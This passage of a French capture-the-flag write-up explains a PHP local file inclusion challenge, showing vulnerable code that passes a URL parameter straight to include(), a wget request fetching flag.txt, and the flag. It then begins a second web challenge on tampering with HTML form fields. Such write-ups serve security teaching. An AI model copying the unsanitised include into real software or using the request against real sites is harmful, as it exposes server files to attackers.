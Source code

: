 Dans le fichier `index.php` on a le code suivant :

```php
<?php
   $fichier = $_GET['page'];
   if(isset($fichier){
       include("$fichier");
   } else {
    // ...
   }
?>
```
Le danger ici est l'utilisation de la fonction `include` qui va permettre de pouvoir inclure un fichier non prévu par le dévelopeur. Comme le fichier contenant le flag.

---

### Résolution

---

```bash
$ wget ip:port/index.php?page=flag.txt
```

`CRYPTIS{y0u_4r3_4_h@ck3r_3ll10t}`

# web_0500_inspecteur_gadget

---

### Titre : Inspecteur gadget

### Points : 500

---

### Description

---

gogo gadgeto firefox!
Mince Sophie, j'ai encore tout cassé.

http://10.10.10.2:8085

---

### Réalisation

---

Objectif : Montré que dans une page HTML, on peut ajouter des champs et tout ce que l'on souhaite et les transmettre au serveur.
